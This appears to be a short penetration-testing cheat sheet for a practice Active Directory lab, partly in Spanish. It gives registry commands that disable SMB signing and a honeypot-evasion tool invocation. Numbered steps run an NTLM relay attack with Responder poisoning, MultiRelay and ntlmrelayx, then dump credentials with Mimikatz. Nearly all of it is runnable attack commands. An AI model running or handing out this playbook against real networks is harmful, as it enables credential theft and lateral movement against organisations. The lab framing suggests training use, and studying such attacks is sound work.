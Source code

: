 ```
setspn –A MSSQLSvc/PLABWIN10.PRACTICELABS.COM:1433 PRACTICELABS\DBServiceUser01
setspn –A MSSQLSvc/PLABWIN810.PRACTICELABS.COM:1433 PRACTICELABS\DBServiceUser02
setspn –A MSSQLSvc/PLABDM01.PRACTICELABS.COM:1433 PRACTICELABS\DBServiceUser03
```

```
Import-Module .\Invoke-HoneypotBuster.ps1
Invoke-HoneypotBuster
```

Shared Folder
```
\\ScanFolder\c$
```

Disable SMB Signing
```
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters" /v "RequireSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters" /v "EnableSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters" /v "RequireSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters" /v "EnableSecuritySignature" /t REG_DWORD /d 0 /f
```


Comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "MultiRelay.py" -print
find /usr/share/responder/ -name "ntlmrelayx.py" -print
```

1. Identify network systems that do not require SMB message validation to detect machine with SMB signing:disabled.
```
cd /usr/share/responder/tools/
python RunFinger.py -i 192.168.0.0/24
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt
 ```   
 ```
 cd /usr/share/responder/tools
 python MultiRelay.py -t 192.168.0.4 -u ALL -d
 ntlmrelayx.py -tf targets.txt --smb2support
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
responder -I eth0 -rv
responder -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```



